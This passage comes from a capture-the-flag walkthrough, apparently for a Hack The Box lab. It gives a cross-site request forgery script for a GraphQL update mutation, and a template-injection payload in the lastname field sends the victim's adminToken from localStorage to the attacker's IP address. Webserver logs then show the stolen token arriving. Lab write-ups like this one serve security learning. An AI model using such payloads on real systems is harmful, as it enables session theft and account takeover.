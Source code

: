 #### CSRF JavaScript

I’ll write a small JavaScript file that will generate this the request to change the last name:

```

var req = new XMLHttpRequest();
req.open('POST', 'http://internal-api.graph.htb/graphql', false);
req.setRequestHeader("Content-Type","text/plain");
req.withCredentials = true;
var body = JSON.stringify({
        operationName: "update",
        variables: {
                firstname: "larry",
                lastname: "{{constructor.constructor('fetch(\"http://10.10.14.6/token?adminToken=\" + localStorage.getItem(\"adminToken\"))')()}}",
                id: "62e18b328f897413e4559cd6",
                newusername: "larry"
        },
        query: "mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername: $newusername, id: $id, firstname: $firstname, lastname:$lastname){username,email,id,firstname,lastname,adminToken}}"
});
req.send(body);

```

It’s important to send it as `text/plain` and not `application/json`. I’m not 100% sure why, but a lot of writeups on bug bounties that I came across made this switch, and it does still work at the server.

#### Exploit

I’ll send a link to Larry:

![image-20220727202118391](https://0xdfimages.gitlab.io/img/image-20220727202118391.png)

A few seconds later, there’s a request for `csrf.js` at my webserver:

```
10.10.11.157 - - [27/Jul/2022 23:00:30] "GET /csrf.js HTTP/1.1" 200 -

```

Then, a few seconds after that, the token:

```
10.10.11.157 - - [27/Jul/2022 23:00:36] code 404, message File not found
10.10.11.157 - - [27/Jul/2022 23:00:36] "GET /token?adminToken=c0b9db4c8e4bbb24d59a3aaffa8c8b83 HTTP/1.1" 404 -

```

## Shell as user
